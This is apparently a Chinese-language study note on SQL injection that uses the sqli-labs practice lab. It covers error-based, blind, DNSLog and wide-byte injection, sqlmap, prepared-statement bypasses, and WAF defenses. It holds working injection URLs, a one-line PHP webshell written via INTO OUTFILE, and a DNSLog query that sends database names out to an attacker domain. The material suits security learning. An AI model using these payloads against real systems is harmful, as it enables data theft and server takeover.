


# sql注入

## 什么是SQL注入？

###  什么是SQL

- SQL，全称是Structured Query Language，是一种结构化查询语言，是一种数据库查询和程序设计语言，用于存取数据以及查询、更新和管理关系数据库系统。

- SQL类型

    - 前期会增删查改就行

     * DQL：query，select

     * DML：manual，insert，update，delete

     * DDL：define，create，drop，alter

     * DCL：control，grant，revoke，commit，rollback

     * 函数：字符串函数，数字函数，日期函数

     * 运算符：算术运算符，比较运算符，逻辑运算符，位运算符

- 熟悉数据库的基本操作（以MySQL为例）

    - 下载mysql数据库并安装好。
    
    - 打开cmd，输入mysql，如果显示**没有找到指令或程序**之类的错误提示，需要在环境变量中添加mysql的路径。
    
    - 添加成功后，在cmd中输入`mysql -uroot -proot`，在最下面一行会出现“**mysql**>”字样，表示成功进入数据库。
    
    - 以下是查看数据库信息的一些操作指令：
    
        ```sql
        show databases;				#查看所有数据库
        create database 数据库名；    #创建一个数据库
        use 数据库名;				  #使用mysql中某个数据库
        show tables;				#查看数据库中的所有表
        select databse();			#查看当前选择的数据库 
        select user();				#查看当前操作的用户
        select version();			#查看当前MySQL的版本
        desc 表名;				   #查看某个表格的属性
        show colmuns from 表名;	   #查看某个表格的属性
        ```

- 网站使用数据库

    - 如果一个网站只有前端的文件，那么这个网站是静态网站，而我们主要是对动态网站进行分析。
    - 网站项目架构一般如下
        ```mermaid
        graph LR
        A(浏览器) --> B(前端服务器HTML CSS JPG)
        B --> C(后端服务器Java python PHP)
        C --> D(DBMS)
        ```
    - 对于一个登录页面，一般需要输入用户名和密码，对于用户输入的参数，处理方式一般如下：

        ```sql
        user=admin&password=123456
        
        "select * from table_name where user ="+user+"and password ="+password
        ```
    
- **在安装好MySQL之后自带了一些系统数据库（sql注入就是要利用这个来获得数据**）。
  
    - 
    
    - 最重要的就是自带的**information_schema数据库**。它是系统数据库，记录是当前数据库的数据库，表，列，用户权限等信息
    
    - **information_scema数据库有schemata，tables，columns三个重要的表。**
    
    - 常用sql语句。
    
        ```sql
        select schema_name from information_schema.schemata;	#查询所有数据库名
        select table_name from information_schema.tables where table_schema='test';	#查询test数据库中的所有数据表名
        select column_name from information_schema.columns where table_schema='test' and table_name='users';		#查询test数据库中的users数据表的所有列名
        ```
    

### 为什么会产生sql注入漏洞

- sql注入和xss注入一样都是因为我们插入的数据被当作功能执行了。
- 一般用户登录用的SQL语句为：`SELECT * FROM user WHERE username='admin' AND password='passwd'`，此处admin和passwd分别为用户输入的用户名和密码，如果程序员没有对用户输入的用户名和密码做处理，就可以构造万能密码成功绕过登录验证。
- 如用户名输入`admin' #`，密码输入空。后台语言得到参数然后将SQL语句拼接为：`SELECT * FROM user WHERE username='admin' #' AND password=''`。#注释掉后面的sql语句。这样使得该语句不需要密码就能返回user表中admin的数据了。

## 搭建靶场

### 使用docker搭建靶场

使用docker下载sqli-labs靶场

### 下载phpstudy搭建靶场（win10）

​	在下载的phpstudy软件中，点击软件管理选项，选择**php5.4.45**版本，进行安装

* 配置sqli-labs
    * 在github上下载[slqi-labs-master](https://github.com/Audi-1/sqli-labs)，解压到phpstudy的www文件夹下
    * 打开文件夹*www/sqli-labs-master/sql-connections-db-creds.inc*，将*$dbpass=’’*修改为**$dbpass=’root’**；
    
* 修改php版本
    * Phpstudy -》网站 -》管理 -》php版本 -》选择5.4版本
    
* 测试环境
    * 在浏览器输入<http://localhost/sqli-labs-master/>，出现sqli-labs的相关界面信息
    * 点击该网页中的*Setup/reset Database for labs*选项，如果出现”**Welcome Dhakkan**“字样，表示配置成功。

## SQL注入方式



### 基础

- 按照获取信息的方式分类：

    - **基于语法报错的注入：**即页面会返回语法错误信息，或者把注入的语句的结果直接返回在页面中**。这是最简单的情况。

    - **基于布尔的盲注：**无语法报错，但是成功执行sql语句和不成功执行会显示不同页面。

    - **基于时间的盲注：**即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断

    - **联合查询注入**

    - **堆查询注入(可同时执行多条语句)**

- 难易程度：

    - **语法报错+字符串输入**：**加引号发现报错即存在注入**，闭合引号然后注入，需要注释掉后面的语句或者闭合后面的引号。（单引号，双引号，根据报错看引号外面是否包含了括号）。
    - **报错+数字输入**：如果后台未过滤非数字的输入，那么和字符串输入一样，只是不需要闭合引号。
    - **报错+双注入+字符串输入**：**双注入用于网页不回显我们用户数据，但报sql语法错误**，也就是查询语句得到的数据结果不显示在页面上，所以需要通过双注入报错显示出我们想要的数据。
    - **输出数据到文件里：`select 1,2,"<?php @eval($_POST['123']);?>" into outfile "yourpath"`，**需要知道网页的物理路径，可以写个一句话木马，适用于mysql低版本，还需注意该目录是否可写。
    - **基于布尔的盲注：**盲注是因为sql语句语法错误信息不会显示出来。但有效用户数据和无效用户数据会显示出区别。
    - **基于时间的盲注：**有效无效页面都一样，语法错误也不报错.
    - **post提交：**以上同样存在于post提交。在post里面与get一样，只是可能不需要自己编码。
    - **更新查询：**已知用户名，在更改密码处存在注入。
    - `UPDATE users SET  password = '$passwd' WHERE username='$row1'` 一般是这种sql语句。
    - **http头部注入**：当页面会返回header头的信息，例如ip，cookie之类的要想到header可能存在注入点。本质是头部字段与name passwd一样都insert数据库了,这时注入的原sql语句是insert语句，注入方式和之前的一样，有报错无回显就双注入，无报错无回显就盲注。
    - **二阶注入（存储型注入):**
    - **堆叠注入：**

- 在注入的时候，要确定后台语句的闭合方式。
    - 整数，单引号`' '`，单引号加括号`(" ")`，双引号`" "`，双引号括号`("")`。
    - 尝试`?id=1"`和` ?id=1"`，如果都报错，则是整数输入。
        - 单引号报错，双引号不报错。则需闭合单引号
            - 如果`?id=1' #`报错，则还需闭合括号

        - 双引号报错，单引号不报错。则需闭合双引号。
            - 如果`?id=1" #`报错，则还需闭合括号

- mysql注释符号

    ```sql
    #
    --+
    /* */
    ```

### 注入常用sql函数

### union联合查询

### 双查询报错注入
SQL语句中有语法错误，根据返回的错误信息，可以察觉到一些数据库信息。
**适用场景**：没有数据回显，条件正确与否结果一样，sleep没区别，但是错误信息会打印出来
**利用方式**:利用语法错误，把value在前端输出

- 部分不允许有语法错误的函数

**updatexml()、geometrycollection()、multipoint()、polygon()、multipolygon()、linestring()、multilinestring()、exp()**

- 相关SQL语句

具体例子可以见B站：<https://www.bilibili.com/video/BV1MA411L7TU?p=8>(第8集)
下面借用其中的一个例子，SQL语句如下：

```
http://localhost/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,database(),
0x7e,user(),0x7e,@@datadir),1) --+
```
其中，**0x7e**是一个16进制的波浪号（~），拼接一个波浪号，可以分隔返回的值，便于查看。
**updataxml**函数中依次是：原来的值，要找的节点，更新后的值。当然当前语法是错误的，但是数据库名、用户等信息都被拼接进去了。
又如
```
http://localhost/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database()),0x7e),1) --+
```
可以拿到当前数据库中的所有数据表名。
将上条SQL语句稍加修改，又能拿到一个数据表的所有列名：
```
http://localhost/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+
```

### 盲注

#### 布尔盲注

- 可以理解为给网站一个判断题，根据反应的对错来猜测数据库信息。
    - **适用场景**：没有数据回显，若条件正确有结果，否则没结果
    - **利用方式**：构造判断条件，逐个猜测

- 布尔盲注相关SQL语法

    * 截取字符
      ```sql
      select mid('abcdefghijklmn',5,5);
      select substr('abcdefghijklmn',5,5);
      select left('abcdefghijklmn',5);
      ```
    * 转成ASCII码
      ```sql
      select ord('a');
      select ascii('a');
      ```
    * 正则表达式
      ```sql
      select user() regexp '^se';	#判断是不是以se开头的
      select user() like 'se%'		#与上条语句含义相同
      ```

    相关练习可以参照B站视频：<https://www.bilibili.com/video/BV1MA411L7TU?p=7>（第七集）
    借用视频中提到的一个例子，在网址中输入如下语句：

    ```url
    http://localhost/sqli-labs-master/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+
    ```
这是用来判断当前数据库第1张数据表的表名的第1位是什么字符。

####  基于时间的盲注
**适用场景**：没有数据回显，条件正确与否结果一样。
**利用方式**：构造判断条件，添加**sleep**，逐个猜测

- 3.2.1 相关SQL语句

```sql
select length(database())=8;	#截取数据库名称长度
select if((1=1),1,0);			#进行判断及赋值，格式为：if(expression,val_true,val_false)
select sleep(N);				#睡眠N秒
select sleep(if((select(databse())=8),1,0));	#如果数据库名称长度为8，则sleep1秒，否则返回0
select if(length(database())=8,sleep(1),0);		#与上条语句含义相同
```
详细例子见B站：<https://www.bilibili.com/video/BV1MA411L7TU?p=8>(第8集)
借用视频中提到的一个例子，在网址中输入如下语句：
```
http://localhost/sqli-labs-master/Less-9/?id=1' and if(ascii(substr((select database()),1,1))=115,sleep(1),0) --+
```
按下回车，如果结果正确，则会发现网站会加载一秒钟之后刷新，否则会立马刷新。如果觉得效果不明显，可以将sleep里面的参数提高一些，例如将sleep(1)改为sleep(2),但是不要把数值改的过大，防止网页加载时间过长。
又如下列语句：
```
http://localhost/sqli-labs-master/Less-9/?id=1' and if(ordord(mid((select ifnull(cast(username as char),0x20) from security.users order by id limit 0,1),1,1))=68,sleep(1),0) --+
```
这是在已经猜测出数据库名、数据表名的前提下，猜测该数据表第一个字段的第一个值的第一个字符，如果猜测正确网页会停顿一秒再刷新，否则立即刷新。


### DNSLog注入
- DNSLog

    - **DNS**,全称是Domain Name Resolution，是一个域名解析协议。域名解析就是把域名指向网站空间IP，让用户通过注册的域名可以方便地访问到网站的一种服务。而IP地址是网络上标识站点的数字地址，为了方便记忆，常用域名来代替IP地址标识站点地址。域名解析就是域名转换为IP地址的过程。域名的解析工作由DNS服务器完成。

    - 互联网中的地址是数字的IP地址，域名解析的作用主要是为了便于记忆。

    - 当要访问一个网站，一般我们只知道域名，但是不知道IP。那么我们可以先访问DNS服务，通过域名得到一个IP地址，再用IP去访问网站所在的服务器，从而可以显示网页。而在访问DNS服务的时候，会有一个日志记录下什么时候访问的、请求的域名以及域名对应的IP信息等，这个日志就是**DNSLog**。

    - **UNC**，Universal Naming Convention，通用命名规则，一种访问资源的格式。

- 自己搭建一个DNS服务器

    - 如果自己建了一个DNS服务器，那么就可以记录下一些网站的域名信息，从而也能分析出做了哪些解析工作。但是如果完全自己动手搭建一个DNS服务器是比较麻烦的，可以借助现在网上开放的一些DNSLog的平台，可以直接使用。
    - 网站dnslog.cn（国内网络无法访问），点击*Get SubDomain*生成一个子域名，可以尝试打开本地cmd，尝试去ping该域名，也可以在域名的最前面再加一个子域名，但是平台不是特别的稳定，可以会出现找不到主机的提示，多试几次可以ping通，返回dnslog.cn网站可以看到刚刚ping通的结果。
    - 网站CEYE.io（国内网络无法访问），可以解析DNS访问，同时也可以解析HTTP请求。注册后会有一个ID，ID是固定的。dns记录会在该网站上保存6个小时，会展示最近100条记录。

    * 在cmd中输入`curl xxx.该网站分配的ID`，可以在网站上的HTTP请求中看到访问信息

- 3.4.3 MySQL读写函数

    * 读文件
        ```sql
        select LOAD_FILE('文件路径');
        ```
        - 只能访问本机的文件，文件需要有读取权限并且字节数要小于max_allowed_packet
    
    * 写文件
        ```sql
        select 要写的内容 into outfile '文件路径';
        ```
    
- DNSLog注入流程
  
    - 把select load_file()注入到数据库，访问文件
    
    - unc构建dns服务器地址，假装访问文件，产生dnslog
    
        ```sql
        select  load_file('////自己创建的域名/需要访问的网站的域名');
        ```
        
    - 把子域名替换成函数或者查询SQL
        ```sql
        select if((select load_file(concat('////',database(),'.自己创建的域名/网站域名'))),1,0);
        ```
        学习教程B站：<https://www.bilibili.com/video/BV1MA411L7TU?p=9>（第九集）

### 堆叠注入

### 二次注入（存储型注入）

### header注入

### **宽字节注入：**

什么是宽字节（字符大小两个字节的）：

- 宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节
- GBK是一种多字符的编码，通常来说，一个gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节
- 转义函数：为了过滤用户输入的一些数据，对特殊的字符加上反斜杠“\”进行转义；Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等，还有一种是配置magic_quote_gpc，不过PHP高版本已经移除此功能。

**sql的执行过程：**

- php根据`character_set_client`告诉服务器应该怎么解码传过去的字符串。不进行编码。
- mysql服务器通过character_set_connection 来解码传过来的二进制流
    - 有人可能会奇怪，为什么会有这个字符集，直接用 character_set_client 来解码不就行了，它存在的意义是啥呢?
        - 其实主要是为了作用上的的分离，character_set_client 主要用来客户端的编码，
        - 而 character_set_connection 主要是为了赋予开发人员解析语义的自由，比如考虑 SELECT LENGTH('中') 这样的场景，如果采用 GBK 一个汉字 2 个长度，结果是 2，而如果是 UTF-8 编码，则结果是 3，所以额外设定一个 character_set_connection 编码，让开发人员可以根据需要更自由地定义不同的业务场景（没看懂）
- character_set_result: 
    - 结果集返回给客户端采用的编码字符集
- 项目接收到数据后，根据本地配置的字符编码展示查询结果；
- 如果未设置` characterEncoding`（？？？？？？？？），那么 character_set_client，character_set_connection，character_set_result 这三的编码字符集与 character_set_server 的设置相同，
- 如果设置了` characterEncoding`，那么这三者的值与 characterEncoding 相同。
- PHP代码中有mysql_query("SET NAMES 'gbk'");那就代表character_set_client，character_set_connection，character_set_results的值都是gbk，

宽字节注入

- **只要求character_set_client编码gbk不要求php默认编码**，

- 测试：

    - 当url输入%df%27，php设置默认gbk的话，%df%27并没有对应的gbk编码，那么显示就会乱码。但是保存的还是二进制的 `/xdf/x27`。

    - 然后经过addslashes函数，对每一个敏感字符进行转义处理。`/xdf/x27`就变成了`/xdf/x5c/x27`。显示到页面上就是`運'`

        ```php
        <!DOCTYPE html>
        <html>
        <head>
        <meta charset="gbk" />
        <title>宽字节测试</title>
            <meta charset="utf-8"/>
        </head>
        <body>
        <form action="test.php" method="get">
           <b>请输入值：</b> <input type="text" name="id"/>
        </form>
        
        <?php
        //连接数据库部分，注意使用了gbk编码
        $conn = mysqli_connect('localhost', 'javasec', 'lambo123') or die('bad!');
        if (mysqli_connect_errno($conn)) 
        { 
            echo "连接 MySQL 失败: " . mysqli_connect_error(); 
        } 
        mysqli_query($conn,"SET NAMES 'gbk'");
        mysqli_select_db($conn,'java_sec_code');
        
        //执行sql语句
        $id = isset($_GET['id']) ? addslashes($_GET['id']) : 1;
        $sql = "SELECT * FROM users WHERE id='{$id}'";
        $result = mysqli_query($conn,$sql);
        echo "<br>"."执行的sql语句是:".$sql."<br>";
        $row = mysqli_fetch_array($result,MYSQLI_NUM);
        
        echo "输出结果";
        print_r($row);
        mysqli_free_result($result);
        ?>
        </body>
        </html>
        ```

        输入`http://localhost:38888/?id=%df%27 or 1=1 %23`发现产生了sql注入，显示了全部数据。

    - 将php默认编码设置成utf-8来测试。

        - **发现还是能注入。php编码并不像python3，java一样属于三明治结构。**
        - 好像和python2很像。
        - python2里的str类，其实是个不存储编码信息的类型。也就是说它把内容二进制按照逐个字节来处理和比对、运算。[str](https://www.zhihu.com/search?q=str&search_source=Entity&hybrid_search_source=Entity&hybrid_search_extra={"sourceType"%3A"answer"%2C"sourceId"%3A"88619826"})类型的「字符串」如果拿来迭代一下，会直接拆成一个个字节来处理。
        - 但是，一旦我们需要对非单字节编码的单个字进行处理的时候，python只提供了一个类型来解决问题，即unicode类（注意，实质上py里这个类是用16位或32位内码存储的，并不是utf32/unicode原编码），所以常常需要相互转换，将用到encode/decode两个方法。原则上是，decode方法是将一个str按照指定编码解析后转换为unicode，encode方法则是把一个unicode对象用指定编码表示并存储到一个str对象里。
        - 具体细节还不会。

- 宽字节防范：

    - character_set_client=BINARY
        - 将传入数据当作ascii看，这样就没有多字节吞反斜杠的问题了，每个字节都是“独立”的。

## sqlmap教程

sqlmap是一个注开源渗透测试工具，可以自动检测和利用SQL注入漏洞并接管数据库服务器。

###  下载安装

* 在已经安装好python环境的前提下，打开[sqlmap官网](https://sqlmap.org/])，选择想要的版本进行下载，将压缩包解压后放在安装的python根目录下，例如C:\Program Files\Python38。
* cmd命令进入sqlmap所在的目录，例如`cd C:\Program Files\Python38\sqlmap`，输入`sqlmap.py -h`,若出现帮助信息则安装成功。
* 为了方便使用，在环境变量中添加sqlmap的路径。步骤如下：
    * 右键桌面计算机图标，选择属性，选择高级系统设置，点击环境变量按钮
    * 选择系统变量中的Path，点击编辑，在最后面加上sqlmap的路径，例如`;C:\Program Files\Python38`，**不要忘记最前面的英文分号**

### sqlmap基本使用

* 使用`sqlmap -h`可以查看帮助手册，使用`sqlmap -hh`可以查看详细的帮助手册。内容很多，输入`sqlmap -hh > help.txt`可以将界面信息保存到一个文本文件中。
* 使用工具去尝试注入，在命令行输入`sqlmap -u "http://localhost/sqli-labs-master/Less-2/index.php?id=1"`,从注入过程中可以得出以下几点判断：
    * 目标URL是否有防火墙的保护
    * 连接是否稳定
    * 查看id的值是否动态可变
    * 判断出数据库类型
        此时sqlmap会提示是否需要继续猜测其他数据库，如果确定是某个数据库，就输入**n**，之后再输入**Y**。之后开始判断数据库的版本，如果确定id可以注入，则输入**N**，不尝试其他的字段。最后得出结果，在结果中可以得到以下信息
        * HTTP(s)请求数，四种（基于GET类型、基于错误、基于时间、基于UNION）
        * 操作系统
        * 网页应用技术版本（Apache、PHP等）
        * 数据库版本（版本不一定很精确）
* 加上其他的参数，去获得数据库的表、列等信息。在cmd中输入指令`sqlmap -u "http://localhost/sqli-labs-master/Less-1/?id=1" --level=5 --risk=3 --dbs`。**level**级别设置越高，payload使用的越多。**risk**等级越高，SQL语句越复杂，但不是越高越好，可能会被防火墙封掉IP。**--dbs**代表获取所有的数据库名。

## 绕过waf

## ctf中的sql注入题目

## 预编译下的sql注入

> https://xz.aliyun.com/t/10686
>
> https://www.zhihu.com/question/43581628

java下的预编译，正确设置好了就无法进行sql注入了。

最简单的jdbc sql语句

```java
Class.forName(driver);
Connection con = DriverManager.getConnection(url, user, password);
Statement statement = con.createStatement();
String sql = "select * from users where username = '" + username + "'";

ResultSet rs = statement.executeQuery(sql);
while (rs.next()) {
    String res_name = rs.getString("username");
    String res_pwd = rs.getString("password");
    String info = String.format("%s: %s\n", res_name, res_pwd);
    result.append(info);
}
rs.close();
con.close();
```

`http://localhost:8080/sqli/jdbc/vuln?username='or 1%23`直接就把所有用户信息打印出来了

有预编译的jdbc sql语句

```java
String sql = "select * from users where username = ?";
PreparedStatement st = con.prepareStatement(sql);
st.setString(1, username);

ResultSet rs = statement.executeQuery(sql);
while (rs.next()) {
    String res_name = rs.getString("username");
    String res_pwd = rs.getString("password");
    String info = String.format("%s: %s\n", res_name, res_pwd);
    result.append(info);
}
rs.close();
con.close();
```

在使用预编译之后，就没有打印出信息了。

#### 预编译的原理

与Statement的区别在于PrepareStatement会对SQL语句进行预编译，预编译的好处不仅在于在一定程度上防止了sql注入，还减少了sql语句的编译次数，提高了性能，

**其原理是先去编译sql语句，无论最后输入为何，预编译的语句只是作为字符串来执行，而SQL注入只对编译过程有破坏作用，执行阶段只是把输入串作为数据处理，不需要再对SQL语句进行解析，因此解决了注入问题。**

PrepareStatement防御预编译的写法是使用?作为占位符然后将SQL语句进行预编译，由于`?`作为占位符已经告诉数据库整个SQL语句的结构，即?处传入的是参数，而不会是sql语句，所以即使攻击者传入sql语句也不会被数据库解析。

**断点调试（在`st.setString(1, username);`）处。**

> 这里是在java层面上对数据的特殊字符进行了转义处理。本质上处理不处理好像都没问题，反正数据库已经预编译了。
>
> 然后还会在输入的数据左右添加单引号，表明数据是一个字符串。

一直步入到setString方法

```java
 public void setString(int parameterIndex, String x) {
        if (x == null) {
            this.setNull(parameterIndex);
        } else {
            int stringLength = x.length();
            byte[] parameterAsBytes;
            if (this.session.getServerSession().isNoBackslashEscapesSet()) {..............}
        String parameterAsString = x;
        boolean needsQuoted = true; //这里有一个名为needsQuoted的布尔变量，默认为true
        if (this.isLoadDataQuery || this.isEscapeNeededForString(x, stringLength))
```

然后进入if判断，其中有一个方法为isEscapeNeededForString，步入该方法。

```java
private boolean isEscapeNeededForString(String x, int stringLength) {//x:"'or 1#"
    boolean needsHexEscape = false;

    for(int i = 0; i < stringLength; ++i) {
        char c = x.charAt(i);
        switch(c) {
            case '\u0000':
            case '\n':
            case '\r':
            case '\u001a':
            case '"':
            case '\'':
            case '\\':
                needsHexEscape = true;
        }

        if (needsHexEscape) {
            break;
        }
    }

    return needsHexEscape;
}
```

步入后发现有一个布尔的needsHexEscape，默认为false，然后将字符串，也就是传入的参数admin'进行逐字解析，判断是否有非法字符，如果有则置needsHexEscape为true且break循环，然后返回needsHexEscape。

我们传入了单引号，置needsHexEscape = true后直接break掉循环，然后直接返回setString方法。经过if判断后运行if体里面的代码，首先创建了一个StringBuilder，长度为传入参数的长度*1.1，先添加进去一个单引号，然后遍历我们输入的x数据，然后switch匹配特殊字符，此switch体的作用就是对正常的字符不做处理，直接向StringBuilder添加同样的字符，如果非法字符，则添加转义后的字符，遍历完成后，添加进去一个单引号。

经过上述之后，我们传入的单引号就被转义了。

然后根据要插入占位符的位置进行插入

```java
parameterAsBytes = this.isLoadDataQuery ? StringUtils.getBytes(parameterAsString) : (needsQuoted ? 		 StringUtils.getBytesWrapped(parameterAsString, '\'', '\'', this.charEncoding) : StringUtils.getBytes(parameterAsString, this.charEncoding));

this.setValue(parameterIndex, parameterAsBytes, MysqlType.VARCHAR);
```

最后的数据就变成了` select * from users where username = '\'or 1#'`

会被转义的特殊字符有

```
\u0000
\n
\r
\u001a
"
\
\\
¥
₩
```

#### 绕过预编译：

开发人员因为自身原因或者代码原因并没有使用占位符导致预编译失效。

**开发人员的在写预编译语句的时候，没有使用占位符，而是直接把数据拼接到sql语句当中，然后再经过预编译语句。**

```java
//创建sql语句
String sql = "SELECT * FROM users WHERE username = '" + req.getParameter("username") + "' AND password = '" + req.getParameter("password") + "'";
System.out.println(sql);
//预编译sql语句
PreparedStatement pstt = connection.prepareStatement(sql);
ResultSet resultSet = pstt.executeQuery(sql);//返回结果集，封装了全部的产部的查询结果
```

- 这样即使使用了预编译，但是预编译的语句已经是被攻击者构造好的语句，所以无法防御SQL注入。
- 又或者是前面使用?占位符后，又对语句进行拼接，也会导致SQL注入
- 想要做到阻止sql注入，首先要做到使用?作为占位符，规定好sql语句的结构，然后在后面不破坏结构

- **使用in语句**：其实还是拼接

    ```
    String sql = "delete from users where id in("+delIds+")”;
    ```

    - 此删除语句大多用在复选框内，在in当中使用拼接而不使用占位符做预编译的原因是因为很多时候无法确定deIds里含有多少个对象

    - 输入：`1,2`    正常只会删除id为1和2的值

    - 如果此时输入：`1,2) or 1=1#`

    - 就会形成SQL注入，删除所有值

    - **正确写法：**

        还是要用到预编译，所以我们要对传入的对象进行处理，首先确定对象的个数，然后增加同量的占位符?以便预编译

- **使用like语句**：还是拼接

    - 当用户的输入会输入到like后面。

    - 正确写法

        首先我们要将拼接的地方全部改为?做占位符，但是使用占位符后要使用setString来把传入的参数替换占位符，所以我们要先进行判断，判断需要插入替换多少个占位符

**使用order by语句**：输入的数据要传入到order by后面。

- 通过上面对使用in关键字和like关键字发现，只需要对要传参的位置使用占位符进行预编译时似乎就可以完全防止SQL注入，然而事实并非如此。
- **当使用order by语句时是无法使用预编译的，原因是order by子句后面需要加字段名或者字段位置，而字段名是不能带引号的，否则就会被认为是一个字符串而不是字段名，然而使用PreapareStatement将会强制给参数加上'。**
- **所以，在使用order by语句时就必须得使用拼接的Statement，所以就会造成SQL注**入，所以还要在过滤上做好防御的准备

**php下PDO有个模拟预编译，并没有调用数据库的预编译，而是自己对数据进行了转义然后拼接发给数据库处理，所有会存在绕过**：

- HP提供了模拟预处理(默认开启),其本质是转义用户输入,相关函数是:
    PDO::quote和mysqli_real_escape_string.
- 在模拟预处理下,绑定参数(bindParam/bind_param)本质也是转义,而非SQL模板和参数分离.


## 实战中如何找寻sqL注入漏洞

## SQL注入的预防措施

- 字符串过滤

  - 使用一些过滤器之类的，过滤到关键词，核心是通过**正则表达式匹配关键字**。

- 字符的转义
  - 例如输入的单引号，前面加上转义符号。

- 数据库权限
  - sql注入过程中，网站上的使用者通过一些手段拿到了数据库的使用权限，同时甚至可能访问其他数据库。因此需要严格限制数据库的使用权限，只能访问应用的数据库，不能访问系统数据库，例如数据库information_schema中存储了所有数据库的结构信息。

- 数据库数据加密

  - 如果数据库的密码是明文存储的，泄露的风险非常大，所以一般会进行md5加密。但是单纯的对密码进行加密依旧很容易被破解，那么可以在相应的数据后面加上实现约定好的固定的字符串。企业中可能还有加密机等手段。
  - 数据库、表、字段的定义
      - 对数据库、表、字段进行定义的时候，尽量不要取太常规的名字，例如users、username等，容易被字典攻击。

- 预编译

- WAF

    - Web Application Firewall，是web应用防火墙，通过执行一系列针对HTTP/HTTPS的安全策略来专门为web应用提供保护的一款产品，不同于网络防火墙。
      **使用场景**：例如服务器中有些安全性比较差的应用程序，例如旧版的wordpress、discuz、phpwind等，审计和修改全部代码比较麻烦，这时候最好的办法就是通过部署WAF来实现安全防护。
    - WAF可以防护的常见风险包括：SQL注入、XSS、利用本地/远程文件包含漏斗进行攻击、PHP代码注入、黑客扫描网站、源代码/错误信息泄露等。
      **产品种类**：硬件型WAF（厂商安装）、云WAF（比如阿里云/腾讯云/华为云的WAF，购买服务）、软件型WAF（可部署在apache、nginx等HTTP Server中，有很多开源产品）。

- 给出一个开源产品的示例（mod_security）

    * 下载[mod_security](https://www.apachelounge.com/download/),解压文件，复制两个文件：
      * 复制mod_security2.so到apache/modules文件夹下（如果下载了phostudy，apache在phpstudy-》extensions文件夹下）；
      * 复制yajl.dll到apache/bin文件夹下。

    * 修改apache/conf/httpd.conf文件:
      * 取消注释：`LoadModule security2_module modules/mod_security2.so`(如果没有就自己加上，放在相同模块附近)
      * 添加`LoadModule unique_id_module modules/mod_unique_id.so`
      * 添加`Include conf/modsecurity/*.conf`

    * 修改modsecurity配置文件
      * 打开mod_security-2.9.3-win64-VS16\mod_security-2.9.3\mod_security，复制文件modsecurity.conf-recommended，改名为modsecurity.conf
      * 在apache/conf下创建一个文件夹，命名为modsecurity
      * 把modsecurity.conf放到modsecurity文件夹下
      * modsecurity.conf中修改/添加两行配置，开启安全规则引擎。如果触发规则，默认防护措施是返回HTTP 403错误。
        ```
        SecRuleEngine On
        SecDefaultAction "deny,phase:2,status:403"
        ```
      * 修改日志路径，否则apache启动会报错（路径不存在错误）
        ```
        SecAuditLog apache的绝对路径/logs/modsec_audit.log
        ```
      * 因为没有unicode.mapping文件，所以需要注释下面这行：
        ```
        #SecUnicodeMapFile unicode.mapping 20127
        ```

    * 测试。所有配置修改完成之后重启apache，测试是否生效。打开一个GET请求的PHP地址，加上`?abc=../..`。具体在下载的mod_security压缩包中由readme文件可以参考。

- 其他
    - 拔网线、删库等。

